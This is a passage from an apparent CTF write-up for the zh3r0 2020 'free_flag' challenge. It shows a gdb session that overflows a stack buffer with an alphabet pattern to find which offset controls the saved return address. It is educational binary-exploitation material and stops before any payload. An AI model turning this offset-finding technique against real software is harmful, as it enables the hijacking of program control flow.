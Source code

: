 **alphabet**
```
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
```

To start, I am going to set a breakpoint at the return value of main (practically
the end of the program). After this, I will define a hook to display the current
instruction that will be executed and examine 16 words from the stack.
```
(gdb) disassemble main
Dump of assembler code for function main:
   0x00000000004007d9 <+0>:     push   %rbp
   0x00000000004007da <+1>:     mov    %rsp,%rbp
   0x00000000004007dd <+4>:     mov    $0x0,%eax
   0x00000000004007e2 <+9>:     callq  0x40076e <init>
   0x00000000004007e7 <+14>:    mov    $0x0,%eax
   0x00000000004007ec <+19>:    callq  0x40071a <here>
   0x00000000004007f1 <+24>:    mov    $0x0,%eax
   0x00000000004007f6 <+29>:    pop    %rbp
   0x00000000004007f7 <+30>:    retq
End of assembler dump.

(gdb) break *0x00000000004007f7
Breakpoint 1 at 0x4007f7

(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $rip
>x/8wx $rsp
>end
```

Now I will run through the program with what we came up with above.
```
(gdb) r
Starting program: /home/gary/ctfs/zh3r0_CTF2020/binary_exploitation/free_flag/chall
Welcome to zh3r0 ctf.
Please provide us your name:
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
=> 0x40076d <here+83>:  retq
0x7ffffffee128: 0x4b4b4b4b      0x4c4c4c4c      0x4d4d4d4d      0x4e4e4e4e
0x7ffffffee138: 0xff5c70b3      0x00007fff      0xff7dd620      0x00007fff
0x000000000040076d in here ()
(gdb) OOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
Undefined command: "OOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ".  Try "help".
```

Hmm okay interesting. Looks like it only accepted up to our N's *(0x4e)*.
But the interesting thing here is that we can set the new return address to be
whatever we want where the K's *(0x4b)* are.
